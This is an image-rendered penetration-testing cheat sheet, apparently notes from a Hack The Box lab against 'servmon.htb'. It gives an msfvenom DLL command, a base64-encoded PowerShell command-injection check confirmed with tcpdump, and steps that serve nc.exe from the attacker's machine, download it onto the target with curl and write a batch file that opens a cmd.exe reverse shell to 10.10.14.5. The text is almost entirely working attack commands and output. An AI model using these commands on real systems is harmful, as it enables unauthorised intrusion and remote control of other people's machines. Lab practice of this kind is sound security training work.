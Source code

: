 ```
msfvenom -f DLL
```

## Command Injection
### pingback check
* generate pingback payload
```
$ echo "ping -n 1 10.10.14.5" | iconv -t utf-16le | base64 -w 0
cABpAG4AZwAgAC0AbgAgADEAIAAxADAALgAxADAALgAxADQALgA1AAoA#

> powershell -EncodedCommand cABpAG4AZwAgAC0AbgAgADEAIAAxADAALgAxADAALgAxADQALgA1AAoA
```
* ensure pingback
```
$ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
18:01:08.824794 IP servmon.htb > kali-workplace: ICMP echo request, id 1, seq 1, length 40
18:01:08.824806 IP kali-workplace > servmon.htb: ICMP echo reply, id 1, seq 1, length 40
```
### nc
```
$ mkdir www && cd www
$ cp /usr/share/windows-resources/binaries/nc.exe .
$ python3 -m http.server 7001

> curl 10.10.14.5:7001/nc.exe > nc.exe
> echo C:\Temp\nc.exe 10.10.14.5 7777 -e cmd.exe > reverse.bat
```